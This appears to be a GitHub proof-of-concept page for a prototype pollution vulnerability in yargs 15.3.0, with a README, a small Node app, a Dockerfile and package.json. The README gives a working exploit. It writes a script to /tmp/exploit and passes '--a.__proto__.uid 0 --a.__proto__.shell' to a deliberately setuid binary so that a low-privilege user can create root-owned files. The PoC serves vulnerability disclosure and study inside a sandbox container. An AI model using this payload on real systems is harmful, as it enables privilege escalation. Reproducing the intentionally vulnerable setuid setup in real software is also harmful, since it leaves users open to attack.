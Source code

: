 Prototype Pollution security vulnerability in yargs
#
##
##
#

README.md
Prototype Pollution security vulnerability in yargs
How to run:
npm i
npm run build
npm run start
Definition
Now you are in a sandbox with permissions of just-user. Our goal is to create test.txt at the root of a container. For sure we don't have that permissions.

To validate it let's try to do the following:

echo "test" > /test.txt
bash: /test.txt: Permission denied
Exploit
Create exploit script: printf '#!/bin/sh\necho "test" > /test.txt' > /tmp/exploit
Give it execute permission: chmod +x /tmp/exploit
Run the application: ./app --a.__proto__.uid 0 --a.__proto__.shell /tmp/exploit
To validate run cat /test.txt.

As you can see we have permission violation via vulnerable application.

app.js
const argv = require('yargs').argv;
const cp = require('child_process');
if (argv.l) {
    console.log(String(cp.execSync('ls -l')));
} else {
    console.log(String(cp.execSync('ls /')));
}
Dockerfile
FROM ubuntu:18.04

COPY ./app /app
RUN chmod u+s /app

RUN useradd -s /bin/bash just-user
USER just-user
package.json
{
  "name": "poc",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "keywords": [],
  "author": "",
  "license": "ISC",
  "scripts": {
    "start": "docker run --rm -it poc bash",
    "build": "npm run build:cli && npm run build:docker",
    "build:cli": "pkg app.js --target node10-linux-x64",
    "build:docker": "docker build . --tag poc"
  },
  "dependencies": {
    "yargs": "15.3.0"
  },
  "devDependencies": {
    "pkg": "4.4.4"
  }
}
